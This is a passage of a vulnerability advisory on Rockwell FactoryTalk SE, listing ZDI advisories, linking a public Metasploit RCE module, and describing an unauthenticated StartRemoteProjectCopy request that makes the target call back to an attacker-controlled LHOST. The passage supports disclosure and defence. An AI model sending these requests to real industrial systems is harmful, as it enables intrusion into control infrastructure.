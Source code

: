 * [ZDI-20-727](https://www.zerodayinitiative.com/advisories/ZDI-20-727/)
* [ZDI-20-728](https://www.zerodayinitiative.com/advisories/ZDI-20-728/)
* [ZDI-20-729](https://www.zerodayinitiative.com/advisories/ZDI-20-729/)
* [ZDI-20-730](https://www.zerodayinitiative.com/advisories/ZDI-20-730/)

A Metasploit module was also made available to the public with this advisory, and can be found at:

* [rockwell_factorytalk_rce.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/scada/rockwell_factorytalk_rce.rb)

Click on the thumbnail below to see the video of the Metasploit module in action:

[![replicant video](https://img.youtube.com/vi/PIid0Ql_KmU/0.jpg)](https://www.youtube.com/watch?v=PIid0Ql_KmU)

~ Team FlashBack


# Vulnerability Details

## Background on the target service

FactoryTalk SE exposes several REST endpoints on Microsoft IIS that are accessible remotely. One of these endpoints is at */rsviewse/hmi_isapi.dll*, which is an [ISAPI](https://en.wikipedia.org/wiki/Internet_Server_Application_Programming_Interface) DLL handler that performs a number of actions that deal with FactoryTalk project management.

The ISAPI DLL was loaded and briefly analysed in [Ghidra](https://ghidra-sre.org/) in order to understand its basic functionality. However this turned out to be unnecessary, as all the steps described in this advisory were discovered with a pure black-box penetration testing approach.


## Vulnerability #1: Unauthenticated Project Copy Request

One of the actions implemented by *hmi_isapi.dll* is *StartRemoteProjectCopy*. This can be initiated by issuing an HTTP GET request to:
```
http://<TARGET>/rsviewse/hmi_isapi.dllStartRemoteProjectCopy&<PROJECT_NAME>&<RANDOM_STRING>&<LHOST>
```
> Snippet 1: *StartRemoteProjectCopy* request from `<LHOST>` to `<TARGET>`



In the example above:

* `<TARGET>` refers to the server running FactoryTalk
* `<PROJECT_NAME>` must be an existing project in the server
* `<RANDOM_STRING>` can be any random string as the name implies
* `<LHOST>` is the IP address of the attacker's host

After this request is sent, if `<PROJECT_NAME>` exists on `<TARGET>`, then `<TARGET>` will issue an HTTP GET request to `<LHOST>` as follows:
```
http://<LHOST>/rsviewse/hmi_isapi.dll?BackupHMI&<RNA_ADDRESS>&<PROJECT_NAME>&1&1
```
> Snippet 2: *BackupHMI* request from `<TARGET>` to `<LHOST>`

